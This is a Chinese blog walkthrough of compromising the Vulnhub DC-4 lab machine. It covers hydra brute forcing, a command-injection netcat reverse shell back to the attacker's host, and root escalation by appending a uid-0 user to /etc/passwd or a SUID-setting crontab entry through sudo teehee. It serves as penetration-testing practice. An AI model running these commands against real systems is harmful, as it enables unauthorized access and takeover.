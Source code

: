 ```yaml
---
layout: mypost
title: Vulnhub靶机DC4渗透
categories: [靶机]
---
```


靶机下载地址：[DC4](https://www.vulnhub.com/entry/dc-4,313/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/24/cvPcg1.png)

DC4 地址：192.168.43.195

访问 web 页面

![](https://z3.ax1x.com/2021/04/24/cvP5Ue.png)

dirb 扫目录无发现，直接上 hydra 爆破，用[这里](https://wiki.skullsecurity.org/Passwords)的字典

```bash
bunzip2 rockyou.txt.bz2
hydra -l admin -P rockyou.txt 192.168.43.195 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![](https://z3.ax1x.com/2021/04/24/cviNPH.png)

账号 admin 密码 happy

![](https://z3.ax1x.com/2021/04/24/cviBsP.png)

![](https://z3.ax1x.com/2021/04/24/cviDqf.png)

发现有命令执行

burp 抓包

![](https://z3.ax1x.com/2021/04/24/cvigiQ.png)

成功执行

![](https://z3.ax1x.com/2021/04/24/cvk84e.png)

发现四个用户（还可以在这深入获得 ssh 密码）

直接反弹 shell

```bash
nc 192.168.43.110 444 -e /bin/bash
nc%20192.168.43.110%20444%20-e%20/bin/bash
```

![](https://z3.ax1x.com/2021/04/24/cvm78O.png)

![](https://z3.ax1x.com/2021/04/24/cvkRuq.png)

成功上线，用 python 获取标准交互shell

![](https://z3.ax1x.com/2021/04/24/cvk4ET.png)

看了一圈只有 jim 下有内容

![](https://z3.ax1x.com/2021/04/24/cvkODx.png)

其中 test.sh 如下

![](https://z3.ax1x.com/2021/04/24/cvAPxA.png)

old-passwords.bak 里是 ssh 密码

继续用 hydra 爆破（注意字典空格）

```bash
hydra -L user.txt -P password.txt  -t 6 ssh://192.168.43.195 
```

![](https://z3.ax1x.com/2021/04/24/cvA3q0.png)

jim 密码  jibril04 

登录 ssh

```bash
ssh jim@192.168.43.195
```

![](https://z3.ax1x.com/2021/04/24/cvEmex.png)

提示查看 mail

![](https://z3.ax1x.com/2021/04/24/cvE0fg.png)

jim 没有 sudo 权限

![](https://z3.ax1x.com/2021/04/24/cvVcgH.png)

mail 下 发现 charles 密码 ^xHhA&hvim0y

![](https://z3.ax1x.com/2021/04/24/cvZKRe.png)

切换用户

![](https://z3.ax1x.com/2021/04/24/cvZ1sA.png)

charles 有 sudo 权限，提示用 teehee 提权

![](https://z3.ax1x.com/2021/04/24/cvZBss.png)

使用teehee命令特性创建一个用户，直接写入 passwd 中

设置 uid 和 gid 都为0，相当于 root

[用户名]：[密码占位符]：[UID]：[GID]：[身份描述]：[主目录]：[登录shell]

```bash
echo "stan::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su stan
```

![](https://z3.ax1x.com/2021/04/24/cvZTdx.png)

Pwned！

还可以通过定时任务执行脚本提权，向 /etc/crontab 文件中写入新的定时任务

![](https://z3.ax1x.com/2021/04/24/cvnAqs.png)

通过 teehee 以 root 身份写入 crontab 计划任务通过执行获得 root 权限

```bash
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab 
```

时间部分全部填 * ，默认这个定时任务每分钟执行一次

通过执行的脚本将 /bin/sh 的权限改为4777，就可以非 root 执行，并且期间拥有 root 权限

![](https://z3.ax1x.com/2021/04/24/cvnuGT.png)